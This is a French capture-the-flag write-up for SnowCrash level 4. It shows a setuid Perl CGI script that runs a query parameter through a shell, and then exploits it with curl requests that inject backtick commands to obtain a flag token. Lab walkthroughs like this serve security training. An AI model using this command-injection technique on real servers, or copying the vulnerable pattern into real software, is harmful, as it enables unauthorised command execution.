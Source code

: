 # Level04

## level04.pl

```zsh
level04@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
level04@SnowCrash:~$ cat level04.pl
```

```pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Ce script est un script CGI (Common Gateway Interface) écrit en Perl. Il s'exécute en dehors d'une machine distante comme un serveur Web. Ce script s'exécute via un navigateur Web, prend les paramètres de requête GET ou POST et appelle la fonction x().

La fonction x() stocke la valeur passée en paramètre dans la variable $y et imprime la variable $y via la commande echo. Où 2>&1 redirige la sortie d'erreur standard vers la sortie standard.

Ainsi, le script level04.pl génère les paramètres transmis par l'utilisateur et on peut transmettre des commandes shell arbitraires aux paramètres. Cela peut conduire à des vulnérabilités d'injection de commandes.

##

Paramètres d'envoi

```zsh
curl localhost:4747/?x=\`CMD\`
```

```zsh
level04@SnowCrash:~$ curl "http://localhost:4747?x=\`whoami\`"
flag04
level04@SnowCrash:~$ curl "http://localhost:4747?x=\`getflag\`"
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
level04@SnowCrash:~$ su level05
Password:
level05@SnowCrash:~$
```
